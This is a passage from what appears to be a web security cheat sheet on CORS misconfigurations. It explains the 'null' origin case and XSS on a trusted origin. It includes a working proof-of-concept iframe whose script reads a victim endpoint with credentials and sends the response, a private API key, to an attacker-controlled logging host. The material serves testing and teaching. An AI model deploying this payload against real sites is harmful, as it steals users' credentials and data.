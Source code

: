 ### Null Origin

#### Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof Of Concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### Wildcard Origin without Credentials
